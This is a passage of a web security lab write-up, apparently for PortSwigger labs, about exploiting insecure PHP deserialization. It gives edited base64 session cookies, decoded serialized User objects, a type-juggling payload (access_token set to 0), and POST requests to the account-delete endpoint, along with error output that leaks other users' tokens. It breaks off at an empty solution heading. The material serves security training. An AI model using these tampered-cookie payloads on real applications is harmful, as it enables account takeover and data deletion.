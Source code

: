 `#Decoded O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"af827mchu563btdedvusarv5gpp0ptqe";}`

**Intended solution:**

`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

### Lab: Using application functionality to exploit insecure deserialization

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

`Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJyOGxlNHhhNmg3cXcwMjdzeHpoYTRtcG1oZnd1c2NvZyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d`

`#Decoded O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"r8le4xa6h7qw027sxzha4mpmhfwuscog";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

```
POST /my-account/delete HTTP/1.1
...
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJyOGxlNHhhNmg3cXcwMjdzeHpoYTRtcG1oZnd1c2NvZyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30%3d
```

`#Decoded O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"r8le4xa6h7qw027sxzha4mpmhfwuscog";s:11:"avatar_link";s:19:"users/carlos/avatar";}`

**In response:**

PHP Fatal error: Uncaught Exception: (DEBUG: $access\_tokens\[$user->username] = hprq4c2qb94fvlxep2oa5twz4xr0xbmw, $user->access\_token = r8le4xa6h7qw027sxzha4mpmhfwuscog, $access\_tokens = \[hprq4c2qb94fvlxep2oa5twz4xr0xbmw, brnnh6yhhi71ojf91tbbjjm0qpoiawko, r8le4xa6h7qw027sxzha4mpmhfwuscog]) Invalid access token for user carlos in /var/www/index.php:7

```
POST /my-account/delete HTTP/1.1
...
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJocHJxNGMycWI5NGZ2bHhlcDJvYTV0d3o0eHIweGJtdyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30%3d
```

`#Decoded O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"hprq4c2qb94fvlxep2oa5twz4xr0xbmw";s:11:"avatar_link";s:19:"users/carlos/avatar";}`

**IIn response:**

PHP Warning: file\_put\_contents(users/carlos/disabled): failed to open stream: No such file or directory in /home/carlos/User.php on line 45 PHP Fatal error: Uncaught Exception: Could not write to users/carlos/disabled in /home/carlos/User.php:46 Stack trace: #0 Command line code(5): User->delete()

**Solution:**
